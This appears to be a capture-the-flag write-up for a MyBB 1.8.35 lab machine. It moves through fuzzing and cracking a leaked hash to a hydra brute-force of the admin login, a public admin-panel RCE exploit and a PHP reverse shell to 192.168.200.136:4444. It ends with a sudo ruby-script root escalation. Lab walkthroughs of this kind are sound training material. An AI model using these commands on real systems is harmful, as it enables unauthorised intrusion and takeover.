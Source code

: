 ﻿# ENUMERATION


## OPEN PORTS


![Pasted image 20241029135137.png](../../IMAGES/Pasted%20image%2020241029135137.png)
Seems like we only have a website, let's fuzz it


## FUZZING

### GOBUSTER FUZZ

![Pasted image 20241029135218.png](../../IMAGES/Pasted%20image%2020241029135218.png)

### SOURCE CODE AND WEBPAGE

Nothing useful, let's see the page:

![Pasted image 20241029143334.png](../../IMAGES/Pasted%20image%2020241029143334.png)

Let's go to the forum:

![Pasted image 20241029143346.png](../../IMAGES/Pasted%20image%2020241029143346.png)

We need to add `panel.mybb.dl` to `/etc/hosts` in order to be able to go into the website:

![Pasted image 20241029143517.png](../../IMAGES/Pasted%20image%2020241029143517.png)

![Pasted image 20241029143536.png](../../IMAGES/Pasted%20image%2020241029143536.png)
Nice, let's keep enumerating the machine until we find something we can exploit:

![Pasted image 20241029143732.png](../../IMAGES/Pasted%20image%2020241029143732.png)
We can see we only have the admin user registered, 


![Pasted image 20241029143829.png](../../IMAGES/Pasted%20image%2020241029143829.png)
Let's fuzz the `http://panel.mybb.dl` website to check if we can find anything:

![Pasted image 20241029144434.png](../../IMAGES/Pasted%20image%2020241029144434.png)

We found interesting things, directory I like the most is the `/backups` directory, let's fuzz it to check if there's anything in there:

![Pasted image 20241029144701.png](../../IMAGES/Pasted%20image%2020241029144701.png)

Found `/data` inside of the directory, let's take a look:

![Pasted image 20241029144821.png](../../IMAGES/Pasted%20image%2020241029144821.png)

In general, SQL queries can be found, and some login attempts, but the most interesting part is the following:

![Pasted image 20241029144856.png](../../IMAGES/Pasted%20image%2020241029144856.png)

User `alice` attempted to log in using a password, that seems like a hash, let's try to crack it and log into Alice account

![Pasted image 20241029145105.png](../../IMAGES/Pasted%20image%2020241029145105.png)

We got `alice:tinkerbell` let's attempt to log in:

![Pasted image 20241029145142.png](../../IMAGES/Pasted%20image%2020241029145142.png)
We cannot get in using those credentials, seems like they were fake, so, why don't we try some bruteforce using the `admin` username, let's capture the request with `burp` and use `hydra` to brute force our login page:


```request
POST /admin/index.php HTTP/1.1

Host: panel.mybb.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 38

Origin: null

Connection: keep-alive

Cookie: mybb[lastvisit]=1730230425; mybb[lastactive]=1730230863; sid=df2321f0ff06ec973eb0f4cbfc38c6de

Upgrade-Insecure-Requests: 1

Priority: u=0, i



username=admin&password=admin&do=login
```

So, we got a post request, let's brute force:

```ad-hint

##### HYDRA COMMAND

`hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:F=Login Failed"`




```

So, we got plenty amount of passwords, after trying every single one of them, correct credentials were: `admin`:`babygirl`, let's log in and proceed with exploitation:

![Pasted image 20241029150737.png](../../IMAGES/Pasted%20image%2020241029150737.png)



# EXPLOITATION


First, we can see we are running `myBB 1.8.35` let's search for any exploit in this version:

![Pasted image 20241029150932.png](../../IMAGES/Pasted%20image%2020241029150932.png)
We found this [exploit](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE), let's download it and use it:

![Pasted image 20241029151057.png](../../IMAGES/Pasted%20image%2020241029151057.png)
So, we need to put this:

```ad-hint

# PYTHON COMMAND:

python3 exploit.py http://panel.mybb.dl admin babygirl

##### OUTPUT


We got RCE!
```

With the RCE from the exploit, we can get a [reverse shell](../../REVERSE%20SHELLS/MOST%20COMMON%20REVERSE%20SHELLS.md):

```ad-note

# USED SHELL

php:  `php -r '$sock=fsockopen("192.168.200.136",4444);shell_exec("bash <&3 >&3 2>&3");'`

# CONNECTION RECEIVED


```

Let's [stabilize our shell](../../Commands/Shell%20Tricks/STABLE%20SHELL.md):

![Pasted image 20241029151553.png](../../IMAGES/Pasted%20image%2020241029151553.png)

With our new stable shell, we can begin with [PRIVESC](../../LINUX/LINUX%20PRIVILEGE%20ESCALATION/BASIC%20PRIVESC%20IN%20LINUX.md)

# PRIVILEGE ESCALATION



At home directory, we can find our previous user `alice`, let's switch users:

![Pasted image 20241029151851.png](../../IMAGES/Pasted%20image%2020241029151851.png)

Nice, we were able to switch to alice, let's use `sudo -l` to get root access:


## SUDO -L


![Pasted image 20241029151944.png](../../IMAGES/Pasted%20image%2020241029151944.png)
Pretty weird, let's take a look at that:

It is a ruby script, since we can execute any ruby script as root without the need of a password, we can do the following:

```ad-hint

`echo 'exec "/bin/bash"' > /home/alice/scripts/root.rb`
`chmod +x root.rb`

`sudo /home/alice/scripts/root.rb`

# OUTPUT



```

And just like that, the CTF is done!
